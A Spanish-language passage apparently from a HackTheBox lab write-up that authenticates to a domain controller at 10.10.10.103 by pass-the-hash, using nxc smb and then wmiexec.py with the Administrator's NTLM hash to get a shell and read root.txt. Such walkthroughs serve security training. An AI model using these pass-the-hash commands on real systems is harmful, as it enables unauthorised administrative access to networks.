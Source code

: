 Validaremos que podemos autenticarnos mediante _**Pass-The-Hash**_ con el hash NTLM del usuario Administrator.

```bash
nxc smb 10.10.10.103 -u 'Administrator' -H 'f6b7160bfc91823792e0ac3a162c9267'
```

<figure><img src="../../../.gitbook/assets/3423_vmware_C0e0muBjFi.png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos al Domain Controller mediante la herramienta de _**wmiexec**_ realizando _**Pass-The-Hash**_.

Verificamos del acceso correctamente y de la flag de _**root.txt.**_

```bash
wmiexec.py htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267
```

<figure><img src="../../../.gitbook/assets/3421_vmware_zWMEXOvQlK.png" alt=""><figcaption></figcaption></figure>

